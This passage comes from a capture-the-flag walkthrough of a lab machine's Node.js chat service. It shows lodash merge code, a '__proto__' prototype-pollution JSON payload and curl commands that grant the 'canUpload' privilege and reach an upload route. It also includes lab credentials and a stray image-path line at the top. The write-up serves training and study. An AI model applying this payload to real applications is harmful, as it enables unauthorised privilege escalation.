       const message = {
        icon: '__',
      };
    
      _.merge(message, req.body.message, {
        id: lastId++,
        timestamp: Date.now(),
        userName: user.name,
      });
    
      messages.push(message);
      res.send({ok: true});
    });
    

It is running a `merge` on `message` and `req.body.message`. I want to get my
pollution payload into `req.body.message`. Looking at `src/js/app.js`, the PUT
to `/` has a body of:

    
    
    data: JSON.stringify({"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"text": message}})
    

I’ll need a valid user to get by `if (!user)`, but I have that. The payload
(with spacing) will be:

    
    
    {
      "auth": {
        "name": "felamos", 
        "password": "Winter2021"
      }, 
      "message": {
        "test": "something",
        "__proto__": {
            "canUpload": true
        }
      }
    }
    

I’ll do the prototype pollution attack, and now I can access the `upload`
route:

    
    
    oxdf@parrot$ curl -X PUT  http://10.10.10.235:31337/ -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "message": {"test": "something", "__proto__": {"canUpload": true}}}'
    {"ok":true}
    
    oxdf@parrot$ curl -X POST http://10.10.10.235:31337/upload -H 'Content-Type: application/json' -d '{"auth": {"name": "felamos", "password": "Winter2021"}, "filename": "test"}'
    {"ok":true,"Uploaded_File":"test"}
    

This privilege seems to reset within a few seconds of setting it, so I’ll have
to work quickly and re-enable it every few uses.

